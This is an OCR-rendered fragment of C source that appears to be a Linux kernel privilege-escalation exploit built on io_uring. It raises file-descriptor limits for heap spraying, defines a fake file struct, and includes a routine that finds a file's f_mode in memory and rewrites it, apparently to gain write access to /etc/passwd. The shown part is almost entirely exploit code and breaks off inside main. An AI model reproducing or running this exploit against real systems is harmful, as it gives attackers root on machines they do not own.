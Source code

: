```
        loge(fmt, ##__VA_ARGS__);          \
        loge(&#34;Exit at line %d&#34;, __LINE__); \
        exit(1);                           \
    } while (0)
#define debug(fmt, ...)                      \
    do {                                     \
        loge(fmt, ##__VA_ARGS__);            \
        loge(&#34;debug at line %d&#34;, __LINE__);  \
        getchar();                           \
    } while (0)

#define check_ret(ret, buf) do { if((ret) < 0) { die(buf); } } while(0)
#define MAX_ring_entries 65536
#define PAGE_SZIE 0x1000
void bind_cpu(int core);
void binary_dump(char *desc, void *addr, int len);
struct __attribute__((aligned(0x100))) fake_filp{
    char pad[20];
    uint32_t f_mode;
    char padding[];
};

void prep_rlimit(int *nr_files){
    struct rlimit max_file;

    getrlimit(RLIMIT_NOFILE,&max_file);
    logu(&#34;rlim_cur -> %d rlim_max -> %d&#34;,max_file.rlim_cur,max_file.rlim_max);
    max_file.rlim_cur=max_file.rlim_max;
    setrlimit(RLIMIT_NOFILE,&max_file);

    int limit = max_file.rlim_max/4;
    *nr_files = limit/2;
    logu(&#34;nr_files -> %d&#34;,*nr_files);
}

int change_mode(void* addr,uint64_t size){
    int  ret = -1;
    uint64_t* tmp = (uint64_t* )addr;
    for (size_t i = 0; i < size/8; i++)
    {
        // if( tmp[i] != 0)
        //     logi(&#34; addr: %p offset: 0x%llx -> %p&#34;,addr+i,i,tmp[i]);
        if(tmp[i]==0x494a801d00000000){
            // logw(&#34;successful!! addr: %p offset: 0x%llx -> %p&#34;,addr+i*8,i*8,tmp[i]);
            tmp[i] = 0x494f801f00000000;
            ret = 1;
            break;
        }     
    }
    return ret;  
}
int main(void){
    int nr_files,ret;
    struct io_uring ring;
    int nr_bufs = 1000;
    void** bufs;
    struct io_uring_buf_reg reg;
    int* fds;
    staticstruct stat status;
    int passwd_size,passwd_fd;
    char* hacker_buf;
    int hacker_len;
    uint64_t nr_pages,entries,mmap_size,mmap_off;
```